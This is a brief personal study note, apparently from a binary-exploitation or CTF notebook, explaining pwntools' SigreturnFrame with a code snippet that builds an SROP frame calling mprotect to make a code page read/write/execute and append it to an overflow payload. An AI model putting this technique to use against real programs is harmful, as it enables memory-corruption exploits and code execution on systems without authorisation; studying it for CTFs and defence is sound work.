 # pwntools sigreturn
sigreturn syscall restores a frame of all registers
- Example: this sigreturn frame will jump right to a syscall to mprotect the executable code as r/w/x so we can use it as a stack and a buffer overflow spot
```
frame = SigreturnFrame()
frame.rip = DIRECT_SYSCALL
frame.rsp = OFFSET_VULN_FUNC_SYMTAB # set RSP as an offset into the symbol table pointing to the vuln function so we can ret to vuln right after
frame.rax = constants.linux.amd64.__NR_mprotect # syscall mprotect
frame.rdi = 0x401000
frame.rsi = 0x1000
frame.rdx = constants.linux.amd64.PROT_READ | constants.linux.amd64.PROT_WRITE | constants.linux.amd64.PROT_EXEC

payload += bytes(frame)
```
` zet/20221003150518/README.md `

# Related

- 20221003150526

- 20221003150512

- 20221003150509

- 20221003150503


Tags:

    
